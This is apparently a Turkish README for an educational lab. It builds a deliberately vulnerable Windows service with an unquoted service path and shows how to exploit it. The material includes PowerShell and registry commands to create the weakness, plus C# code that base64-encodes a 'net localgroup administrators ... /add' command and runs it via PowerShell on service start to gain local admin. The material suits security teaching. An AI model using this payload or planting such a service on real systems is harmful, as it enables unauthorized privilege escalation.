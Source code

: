 ## Giriş
Bunun sadece bir eğitim aacıyla hazırlandığını ve gerçekten uzak bir senaryo olduğunu unutmayın.

## Kurulum

Projeyi bu hali ile derlersen /bin klasörü altında sana bir exe oluşacaktır. Bu bir servis projesi ve bunu windows'a eklemen gerekecektir. Ekleme işlemini aşağıdaki kod ile terminal üzerinden yapabilirsin.
```ps1
New-Service -Name "YourServiceName" -BinaryPathName <exenin tam yolu>.exe
```
Eğer servisi silip tekrardan eklemek istersen:
```ps1
$service = Get-WmiObject -Class Win32_Service -Filter "Name='Personel Takip'"
$service.Delete()
```

Bu esnada servis aslında düzgün bir şekilde çalışmaya başlayacaktır. Bu serivisi lab ortamına hazır hale getirmek istiyorsan aşağıdaki kodu çalıştır. Bu sayede unquoted path oluşturmuş olacaksın.

```ps1
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Services\zafiyetliServis4Kuday\" -Name ImagePath -Value "C:\Users\Ogrenci\Desktop\Zafiyetli Servis\Zafiyetli Servis\bin\Release\Zafiyetli Servis.exe"

```
Yukarıdaki binary path'i değiştirmeyi unutma ve unquoted path'e uygun bir path ver.

Evet kurulum tamam!

## Hackleme
Lab ortamında unquoted path'i tespit ettikten sonra bunu exploit etmek isteyebilirsin. Bu işlemi manuel bir şekilde nasıl yaptığımızı sana göstereyim.
```c#
 protected override void OnStart(string[] args)
        {
            using (System.IO.StreamWriter file =
            new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            {

                file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı!");
            }
            //Base64EncodedCommand();
        }

```

Servis başladığında yukarıda görmüş olduğun gibi C:\PersonelTakip.txt isimli dosyaya yazı yazmakta. Bunun haricinde yorum satırına alınmış bir kod var.`Base64EncodedCommand()` metodunun içine bir gidelim.
```c#
void Base64EncodedCommand()
        {
            var psCommmand = @"net localgroup administrators bkg\yetkisizuser /add";
            var psCommandBytes = System.Text.Encoding.Unicode.GetBytes(psCommmand);
            var psCommandBase64 = Convert.ToBase64String(psCommandBytes);

            var startInfo = new ProcessStartInfo()
            {
                FileName = "powershell.exe",
                Arguments = $"-NoProfile -ExecutionPolicy unrestricted -EncodedCommand {psCommandBase64}",
                UseShellExecute = false
            };
            Process.Start(startInfo);

            using (System.IO.StreamWriter file =
          new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            {

                file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı (Hack)!");
            }

        }
```



Evet burda bir batch kodu çalıştırıldığını görüyoruz. `net localgroup administrators bkg\yetkisizuser /add`. Unquoted service path sistemde tespit edildikten sonra `OnStart` metodunu aşağıdaki gibi güncellemek isteyebilirsiniz.
```c#
        protected override void OnStart(string[] args)
        {
            //using (System.IO.StreamWriter file =
            //new System.IO.StreamWriter(@"C:\PersonelTakip.txt", true))
            //{

            //    file.WriteLine(DateTime.Now.ToString() + ": Servis Başladı!");
            //}
            Base64EncodedCommand();
        }
```

Artık servis başladığında batch kodumuz çalışacak. Bu projeyi derleyip exe'yi binary path içerisinde unquoted service path'e uygun bir isimle eklerseniz. Servis yeniden başladığında local adminsiniz!

## Not
Ayrıca internet sayfamda bu konuları daha iyi anlattığımı düşünüyorum. Aşağıdaki linklerede bakmanızı tavsiye ederim.
http://144.76.171.171/blog/index.php/unquoted-service-path/
http://144.76.171.171/blog/index.php/unquoted-service-path-ve-bir-proje/
